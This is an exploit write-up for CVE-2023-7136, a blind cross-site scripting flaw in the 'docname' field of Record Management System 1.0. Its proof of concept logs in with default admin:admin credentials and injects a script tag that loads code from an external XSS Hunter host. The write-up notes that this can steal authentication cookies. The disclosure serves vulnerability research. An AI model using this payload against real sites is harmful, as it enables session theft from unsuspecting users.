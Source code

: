 # CVE-2023-7136_Record_Management_System-Blind_Cross_Site_Scripting-2
+ **Exploit Title:** CVE-2023-7136_Record_Management_System-Blind_Cross_Site_Scripting-2
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/record-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/RECORD_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7136

## References: 
+ **CVE-2023-7136:** https://vuldb.com/?id.249139
+ https://www.cve.org/CVERecord?id=CVE-2023-7136
+ cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7136

## Description:
Record Management System 1.0 allows Blind Cross-Site Scripting via parameter 'docname' in "/recordmanagement/main/doctype.php". Record Management System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the login panel: "http://localhost/recordmanagement/"
+ Login with `admin`:`admin`
+ Go to the Document Type: "http://localhost/recordmanagement/main/doctype.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Add Doc Type and Name with payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![4-1](https://github.com/h4md153v63n/CVEs/assets/5091265/8bfdf785-ec1f-4c13-b744-0a113fb5dc7b)
<br>
<br>
![4-2](https://github.com/h4md153v63n/CVEs/assets/5091265/3b18e148-3622-4695-88f6-57291836d32c)
<br>
<br>
![4-3](https://github.com/h4md153v63n/CVEs/assets/5091265/d8c1cf8c-ce5f-46fd-bc21-cfcbfe0a2d93)
<br>
<br>
![4-4](https://github.com/h4md153v63n/CVEs/assets/5091265/b15fbf45-0d73-45f1-8cc2-7a06ab8b7c78)

